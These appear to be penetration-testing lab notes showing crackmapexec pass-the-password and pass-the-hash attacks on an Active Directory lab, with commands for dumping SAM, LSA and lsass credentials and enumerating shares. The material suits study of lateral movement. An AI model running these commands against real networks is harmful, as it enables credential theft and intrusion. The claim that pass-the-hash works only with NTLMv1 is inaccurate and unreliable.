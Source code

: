 ## Pass Attacks

### Pass the Password
- `crackmapexec smb <subnet> -u <username> -d <domain> -p <password>`

  ![image](https://github.com/user-attachments/assets/1bdef64f-e99a-4001-b7e9-c9b3cc40135b)

- Successful authentication to DC and both workstations
- Local admin on workstations

### Pass the Hash
- Only works with NTLMv1, not v2. v2 can be relayed
- `crackmapexec smb <subnet> -u <username> -H <hash> --local-auth`

  ![image](https://github.com/user-attachments/assets/a908cc65-a783-4e66-8e12-dad41cabd3f9)

- Pwn3d! on both workstations
- DC is not Pw3d! because it is not the correct password

### Other things with crackmapexec
- Dump the SAM: `crackmapexec smb <subnet> -u <username> -H <hash> --local-auth --sam`

  ![image](https://github.com/user-attachments/assets/2d0dafbd-85bd-4f77-a108-697a78a0e6c4)

- Enumerate shares: `crackmapexec smb <subnet> -u <username> -H <hash> --local-auth --shares`

  ![image](https://github.com/user-attachments/assets/b85ef478-ccab-4456-980e-53ba130f19e8)

- Dump the LSA: `crackmapexec smb <subnet> -u <username> -H <hash> --local-auth --lsa`

  ![image](https://github.com/user-attachments/assets/c03c726a-8ae2-49aa-868a-53d14819578c)

- Could potentially crack DDC2 hash
- Dump lsass: `crackmapexec smb <subnet> -u <username> -H <hash> --local-auth -M lsassy`
- Nothing found with lsassy
- CME DB: `cmedb`

  ![image](https://github.com/user-attachments/assets/72e903fa-eebc-4086-865e-69f154eaf606)

